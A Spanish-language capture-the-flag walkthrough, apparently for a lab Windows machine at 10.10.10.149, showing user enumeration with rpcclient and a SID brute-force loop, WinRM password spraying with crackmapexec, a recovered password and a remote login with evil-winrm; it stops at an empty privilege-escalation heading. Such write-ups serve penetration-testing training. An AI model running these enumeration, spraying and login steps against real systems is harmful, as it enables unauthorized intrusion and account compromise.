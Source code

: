 - Enumerar de forma manual con `rpcclient`:
```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
# Usamos la opcion lookupnames para obtener el SID del usuario que sabemos
lookupnames Hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
lookupnames administrator
administrator S-1-5-21-4254423774-1266059056-3197185112-500 (User: 1)
```

- Podemos buscar las cuentas a través del `SID` de la siguiente forma:
```bash
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```

- Sabiendo lo anterior lo que podemos hacer es buscar cuentas de usuario haciendo fuerza bruta a los `SID` dentro de un bucle de `bash` de la siguiente forma:
```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

Como vemos también obtenemos dichos usuarios.

------------
# COMPROBACION DE WINRM NUEVOS USUARIOS

- El siguiente paso que yo haría seria hacer un `password spraying` con la herramienta `crackmapexec` de la siguiente forma para validar que usuario tiene permisos para iniciar sesión de forma remota con el servicio `Winrm`:
```bash
crackmapexec winrm 10.10.10.149 -u user.txt -p pass.txt --continue-on-success
```

Indicamos la `flag` `--continue-on-success` para que si encuentra un usuario y contraseña valido, no pare la herramienta sino que siga con el ataque.

- Encontramos el siguiente usuario valido:
```bash
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

- Por lo que vamos a iniciar sesión con la herramienta `evil-winrm` y entramos dentro de la maquina:
```bash
evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

-------------------
# ESCALADA DE PRIVILEGIOS
